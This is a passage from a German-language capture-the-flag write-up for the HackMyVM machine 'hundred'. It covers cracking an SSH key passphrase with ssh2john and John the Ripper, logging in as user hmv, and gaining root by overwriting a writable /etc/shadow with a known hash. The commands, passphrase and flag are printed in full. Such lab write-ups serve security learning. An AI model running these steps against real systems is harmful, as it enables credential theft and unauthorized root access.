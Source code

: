 2.  **SSH-Schlüssel-Analyse und Passphrase-Cracking:**
    *   Der über den Webserver gefundene SSH-Schlüssel (lokal als `idr` gespeichert) war passwortgeschützt.
    *   `ssh2john idr > hundert.hash` extrahierte den Hash.
    *   `john --wordlist=/usr/share/wordlists/rockyou.txt hundert.hash` knackte die Passphrase: `d4t4s3c#1`.

3.  **SSH-Login als `hmv`:**
    *   Der Benutzername `hmv` wurde (vermutlich aus der `users.txt` vom FTP-Server, dieser Schritt fehlt im Log) identifiziert.
    *   Mit dem privaten Schlüssel `idr` und der Passphrase `d4t4s3c#1` wurde ein SSH-Login durchgeführt:
        ```bash
        ssh -i idr hmv@192.168.2.146
        # Passphrase: d4t4s3c#1
        ```
    *   Initialer Zugriff als `hmv` auf dem System `hundred` wurde erlangt.
    *   Die User-Flag `HMV100vmyay` wurde in `/home/hmv/user.txt` gefunden.

---

## Phase 3: Privilege Escalation (`/etc/shadow` Manipulation)

1.  **Erzeugung eines bekannten Root-Passwort-Hashes:**
    *   Als Benutzer `hmv` wurde `openssl passwd` verwendet, um den Hash für das Passwort `root` zu generieren:
        ```bash
        hmv@hundred:~$ openssl passwd
        Password: root
        Verifying - Password: root
        .LQrZnK1qh9TI 
        ```
2.  **Überschreiben von `/etc/shadow`:**
    *   Es wurde festgestellt, dass der Benutzer `hmv` Schreibrechte auf die Datei `/etc/shadow` hatte (kritische Fehlkonfiguration).
    *   Die `/etc/shadow`-Datei wurde mit einem neuen Eintrag für `root` überschrieben, wobei der zuvor generierte Hash verwendet wurde:
        ```bash
        hmv@hundred:~$ echo "root:.LQrZnK1qh9TI:18844:0:99999:7:::" > /etc/shadow
        ```
    *   Damit wurde das Passwort des `root`-Benutzers effektiv auf `root` gesetzt.

3.  **Benutzerwechsel zu `root`:**
    *   `hmv@hundred:~$ su -l` mit dem Passwort `root` war erfolgreich.
    *   Voller Root-Zugriff wurde erlangt.

---

## Proof of Concept (Root Access)
